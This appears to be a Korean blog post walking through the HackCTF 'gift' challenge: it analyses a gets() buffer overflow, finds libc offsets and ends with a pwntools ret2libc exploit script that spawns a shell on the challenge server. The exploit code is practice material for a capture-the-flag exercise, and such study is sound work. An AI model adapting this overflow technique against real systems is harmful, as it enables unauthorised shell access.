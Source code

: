 ```yaml
---
layout: post
title:  "HacCTF gift write-up"
date:   2020-02-03 19:45:55
image:  hackctf_gift.PNG
tags:   [Hackctf]
categories: [Write-up]
---
```


# [HackCTF] gift

Date: Feb 03, 2020
Tags: report


### 1.  문제

---

**1) mitigation 확인**

![]({{ site.baseurl }}/images/write-up/HackCTF/HackCTF%20gift/Untitled.png)

NX비트 말곤 다 안걸려있다.

**2) 문제 확인**

![]({{ site.baseurl }}/images/write-up/HackCTF/HackCTF%20gift/Untitled%201.png)

바이너리를 실행시켜보면 두개의 주소를 알려주고 두개의 입력을 받고 종료가 된다. 해당 주소를 이용하여 진행을 하는것으로 보인다

**3) 코드 확인**

![]({{ site.baseurl }}/images/write-up/HackCTF/HackCTF%20gift/Untitled%202.png)

출력되는 주소가 binsh의 주소와 system함수의 주소이다. 그리고 fgets로 128바이트 만큼 입력을 받고, 입력한 문자열을 출력해준 뒤, gets로 한번더 입력을 받게 된다. 여기서는 크기 제한이 없으므로 bof를 일으켜 ret를 변경하여 system함수를 실행시키면 될 것이다

![]({{ site.baseurl }}/images/write-up/HackCTF/HackCTF%20gift/Untitled%203.png)

하지만 자세히 보면 system 함수는 실제 함수의 주소이지만, binsh는 .bss 영역에 저장된 전역변수의 이름이 binsh이다. 해당 주소를 rop의 인자로 넣으면 아무 소용이 없다. 이를 염두해야한다

### 2. 접근방법

---

system함수를 주기 때문에 libc_base를 구하여 오프셋을 이용해 "/bin/sh" 의 주소를 찾고 ROP를 진행하면 될 것이다. 매우 간단한 문제이다. libc_database를 이용하여 libc의 버전을 확인해보자

![]({{ site.baseurl }}/images/write-up/HackCTF/HackCTF%20gift/Untitled%204.png)

ubuntu10의 2.23 버전이다. 현재 내 환경은 ubuntu16이기 때문에 로컬에서는 될지 몰라도 원격에서는 오프셋이 다르기 때문에 ubuntu10에서의 오프셋을 구해야한다. dump 프로그램을 이용하자

![]({{ site.baseurl }}/images/write-up/HackCTF/HackCTF%20gift/Untitled%205.png)

system함수와 bin_sh의 오프셋을 확인가능하다. 이를 이용하여 ROP를 진행하자

### 3. 풀이

---

최종 익스코드는 다음과 같다

    from pwn import *
    context.log_level="DEBUG"
    p=remote("ctf.j0n9hyun.xyz",3018)
    #p=process("./gift")
    #gdb.attach(p)
    
    tmp=p.recvline()
    bin_bash=int(tmp[32:41],16)
    system_addr=int(tmp[42:],16)
    
    log.info("bin::"+hex(bin_bash))
    log.info("system::"+hex(system_addr))
    
    libc_base=system_addr-0x0003a940
    gets_adr=libc_base+0x5f3e0
    
    p.sendline("A")
    #p.recvline()
    
    payload="A"*0x88+p32(system_addr)
    payload+=p32(0x080483ad)
    payload+=p32(libc_base+0x15902b)
    #payload+=p32(system_addr)
    #payload+="AAAA"
    #payload+=p32(bin_bash)
    
    
    p.sendline(payload)
    #p.sendline("/bin/sh\00")
    
    p.interactive()

### 4. 몰랐던 개념

---

처음에 libc_databe의 우분투 버전을 제대로 확인하지 않아서 계속 시간낭비를 했다. 주어진 문제의 조건들을 잘 확인하자..